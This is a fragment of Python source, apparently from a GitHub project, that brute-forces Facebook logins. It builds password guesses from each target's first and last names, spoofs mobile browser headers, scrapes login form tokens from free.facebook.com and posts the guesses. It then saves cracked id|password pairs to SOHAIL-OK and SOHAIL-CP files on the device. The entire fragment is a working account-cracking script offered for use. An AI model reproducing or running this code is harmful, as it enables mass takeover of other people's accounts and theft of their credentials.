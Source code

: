         try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://free.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://free.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Shahin=session.cookies.get_dict().keys()
                        if "c_user" in Shahin:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [SOHAIL-OK] %s | %s'%(ids,pas))
                                open(f'/sdcard/SOHAIL-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                #cek_apk(session,coki)
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Shahin:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;126m [SOHAIL-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/SOHAIL-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1